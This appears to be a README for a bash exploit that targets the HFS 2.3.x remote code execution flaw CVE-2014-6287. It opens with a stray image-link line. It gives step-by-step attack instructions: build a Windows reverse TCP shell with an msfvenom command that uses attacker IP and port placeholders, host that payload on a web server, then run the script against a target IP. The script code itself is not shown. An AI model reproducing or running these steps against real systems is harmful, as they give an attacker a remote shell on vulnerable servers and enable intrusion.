# CVE-2014-6287
#HFS 2.3.x File Upload Exploit, RCE, that is only a bash version!!!
#Wrapper using GET tool !


Step 1 - Create reverse shell.

    eg.: msfvenom -p windows/x64/reverse_tcp LHOST=Attacke_IP LPORT=Attacker_PORT -f exe > shell.exe
    
Step 2 - Start a Web-Server with the msfvenom payload inside webroot.

Step 3 - Fire exploit!

    eg.: Usage: ./hfs.sh <Target_IP> <Target_Port> <Executable> <Local_IP>
